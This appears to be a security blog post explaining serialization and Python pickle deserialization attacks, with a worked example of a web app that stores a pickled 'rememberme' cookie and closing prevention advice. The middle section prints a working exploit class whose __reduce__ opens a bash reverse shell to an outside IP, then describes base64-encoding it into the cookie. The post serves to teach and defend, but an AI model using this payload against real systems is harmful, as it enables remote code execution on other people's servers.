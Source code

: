 ```yaml
---
layout: post
title: "Deserialization Attack Using Python's Pickle Module"
subtitle: "And a practical use-case"
date: 2022-04-27 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
 
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
 
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them laterr

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
  
![request-burp](/img/posts/serialization-pickle/request.png)

How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
 
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
 
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
 
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.